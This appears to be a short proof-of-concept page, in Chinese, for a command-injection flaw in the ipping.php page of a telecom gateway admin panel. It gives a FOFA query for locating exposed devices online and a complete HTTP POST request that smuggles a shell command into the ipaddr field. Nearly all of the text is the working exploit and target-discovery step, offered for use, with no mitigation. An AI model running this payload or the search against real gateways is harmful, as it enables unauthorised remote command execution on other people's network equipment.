 ## 电信网关配置管理后台ipping.php存在命令执行漏洞

## fofa
```
body="img/login_bg3.png" && body="系统登录"
```

## poc
```
POST /manager/ipping.php HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 19
Connection: close
Cookie: PHPSESSID=pof41mogacm6v38ltsni5t6962
Upgrade-Insecure-Requests: 1

ipaddr=127.0.0.1;ls
```
![image](https://github.com/wy876/POC/assets/139549762/5c08273c-6607-4c66-a7f6-638c448aa4cb)
